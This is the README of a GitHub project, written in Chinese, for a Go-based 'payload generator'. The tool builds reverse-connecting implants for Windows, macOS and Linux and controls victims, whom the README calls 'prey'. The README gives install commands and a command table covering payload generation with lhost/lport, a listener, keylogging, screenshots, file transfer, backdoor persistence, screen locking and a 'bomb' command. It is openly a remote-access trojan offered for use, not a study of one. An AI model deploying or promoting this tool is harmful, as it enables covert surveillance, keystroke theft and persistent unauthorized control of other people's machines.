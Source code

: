 <p align="center">
  <img src="https://raw.githubusercontent.com/CooChristmas/Christmas/master/content/logo.png">
</p>

<h1 align="center">Christmas Payload Generator</h1>
<p align="center">
  <a href="https://golang.org/">
    <img src="https://img.shields.io/badge/Golang-1.11-blue.svg">
  </a>
  <a href="https://github.com/CooChristmas/Christmas/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/CooChristmas/Christmas/blob/master/main.go">
    <img src="https://img.shields.io/badge/Release-3.0-red.svg">
  </a>
    <a href="https://opensource.org">
    <img src="https://img.shields.io/badge/Open%20Source-%E2%9D%A4-brightgreen.svg">
  </a>
</p>

<p align="center">
  Christmas可以生成有效负载并控制远程操作系统的Poc。
</p>

## 如何安装
```bash
$ go get github.com/CooChristmas/Christmas
$ go get github.com/kbinani/screenshot
$ go get github.com/lxn/win
$ go get github.com/matishsiao/goInfo
$ go get golang.org/x/sys/windows
$ cd ~/go/src/github.com/CooChristmas/Christmas
$ go run main.go
```

## 如何使用

命令    | 参数及介绍
:-----      |:-----
`generate`  |生成负载 (```e.g```. `generate lhost=192.168.0.100 lport=8080 fname=chaos --windows`)
`lhost=`    |指定猎物ip
`lport=`    |指定猎物端口
`fname=`    |指定输出文件
`--windows` |猎物系统为``` Windows```
`--macos`   |猎物系统为 ```Mac OS```
`--linux`   |猎物系统为 ```Linux```
`listen`    |从猎物的另一个端口监听 (```e.g```. `listen lport=8080`)
`serve`     |服务文件
`exit`      |退出

命令    | 参数及介绍
:-----                  |:-----
`download`              |下载文件
`upload`                |上传文件
`screenshot`            |截屏
`keylogger_start`       |键盘记录
`keylogger_show`        |输出键盘记录内容
`persistence_enable`    |维持访问之插后门
`persistence_disable`   |移除后门
`getos`                 |获取系统名称
`lockscreen`            |锁定猎物屏幕
`openurl`               |打开通知的```URL```
`bomb`                  |鱼叉炸弹
`clear`                 |清屏
`back`                  |挂起会话
`exit`                  |关闭会话
